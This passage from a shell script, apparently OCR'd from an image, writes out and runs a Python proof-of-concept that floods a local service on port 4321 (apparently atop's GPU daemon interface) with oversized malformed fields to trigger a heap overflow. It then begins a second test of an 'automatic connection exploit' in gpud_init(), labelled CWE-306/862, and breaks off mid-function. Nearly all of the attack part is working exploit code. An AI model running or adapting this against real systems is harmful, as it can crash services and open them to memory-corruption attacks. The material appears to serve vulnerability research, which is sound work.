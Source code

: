     # Create test payload
    cat > heap_overflow_test.py << 'EOF'
import socket
import sys

def test_overflow():
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(('127.0.0.1', 4321))
        
        # Create malformed GPU data
        gpu_type = "NVIDIA_TEST"
        overflow_fields = ["A" * 100] * 200  # 200 fields of 100 bytes each
        malformed_data = gpu_type + ":" + ":".join(overflow_fields)
        
        print(f"[+] Sending {len(malformed_data)} bytes of malformed GPU data")
        sock.send(malformed_data.encode() + b"\n")
        
        # Check for crash/response
        try:
            response = sock.recv(1024)
            if response:
                print(f"[+] Received response: {len(response)} bytes")
            else:
                print("[!] No response - possible crash")
        except:
            print("[!] Connection lost - exploitation likely successful")
            
        sock.close()
        return True
        
    except Exception as e:
        print(f"[-] Test failed: {e}")
        return False

if __name__ == "__main__":
    test_overflow()
EOF
    
    python3 heap_overflow_test.py
    echo "[+] Heap overflow test completed"
}

# Function to test automatic connection exploit
test_auto_connection() {
    echo ""
    echo "=== TESTING AUTOMATIC CONNECTION EXPLOIT ==="
    echo "Target: gpud_init() in atop.c lines 777-790"
    echo "CWE-306, CWE-862 | CVSS 8.5/10"
    